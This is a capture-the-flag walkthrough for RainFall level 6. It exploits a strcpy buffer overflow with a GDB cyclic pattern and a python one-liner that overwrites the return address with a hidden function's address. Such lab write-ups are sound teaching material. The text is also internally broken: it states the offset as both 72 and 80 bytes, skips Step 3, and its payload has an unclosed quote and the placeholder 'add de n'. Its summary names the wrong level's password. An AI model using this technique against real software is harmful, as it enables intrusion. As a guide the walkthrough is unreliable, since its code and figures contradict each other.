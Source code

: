 #Level6

## Objective

The goal of Level 6 is to escalate from `level6` to `level7` by exploiting a buffer overflow vulnerability in the `level6` binary. By the end, we’ll be able to read the password for `level7`.

---

## Step 1: Examine the Binary

After switching to `level6`:

```bash
level6@RainFall:~$ ls
level6
```

Running the binary with different input lengths:

```bash
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)

level6@RainFall:~$ ./level6 aaaaa
nope
```

Disassembling functions:

There's a function called `n()` which calls a syscall.
The main uses 2 mallocs and a strcpy. If there's a strcpy there's a way to leak.

> Observations:
>
> * The program segfaults when there's no arg.
> * And when there's an arg it says "nope".

---

## Step 2: Find the Offset with GDB

We use the cyclic string to identify the overwrite point:

```bash
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9...
Program received signal SIGSEGV
0x41346341 in ?? ()
```
By calculating the position of `0x41346341` in the cyclic string, we determine the **offset** is 72 bytes.

---

## Step 4: So What’s the Expected Input?

To exploit the program:

* **Shellcode is not needed** here because the binary already has a function (`n`) that runs the command for us.
* We need: `padding (80 bytes) + address of n()`

```bash
./level6 $(python -c 'print "A" * 72 + "add de n")
```

This overwrites the return address with the address of `n()` (0x08048444).

---

## Step 5: Get the Flag

Running the exploit:

```bash
level6@RainFall:~$ ./level6 $(cat /tmp/exploit)
123456789abcdef...
```

Now we can read:

```bash
level6@RainFall:~$ su level7
Password: <paste flag>
level6@RainFall:~$
```

---

## Step 6: Summary

* **Vulnerability:** Buffer overflow via unchecked input.
* **Offset:** 80 bytes to reach EIP.
* **Target:** Hidden function `n()` at `0x08048444`.
* **Outcome:** Successfully redirected execution to `n()`, retrieved the `level6` password.

---

**End of Level 6 Walkthrough**

